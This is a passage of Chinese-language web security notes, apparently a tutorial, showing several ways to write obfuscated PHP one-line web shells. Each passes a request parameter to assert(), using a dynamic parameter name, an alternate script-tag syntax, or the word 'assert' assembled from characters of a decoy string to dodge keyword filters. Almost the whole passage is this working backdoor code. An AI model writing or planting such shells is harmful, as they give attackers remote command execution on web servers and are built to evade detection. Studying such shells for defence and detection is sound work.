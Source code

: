 ```php
<?php
//?b=cmd&cmd=phpinfo();
@assert($_REQUEST[$_REQUEST['b']]);
?>
```

![更换数据源2](../../images/8-17-afternoon/更换数据源2.png)

##### e. 替代<.??>标签

```php
<script language="php">
    @assert($_REQUEST['cmd']);
</script>
```

![更换php标签](../../images/8-17-afternoon/更换php标签.png)

##### f. 字符串组合法

```php
<?php
$str = 'abcsqebrt';
$a = $str[0].$str[3].$str[3].$str[5].$str[7].$str[8];
@$a($_REQUEST['cmd']);
?>
```

![字符串截取](../../images/8-17-afternoon/字符串截取.png)
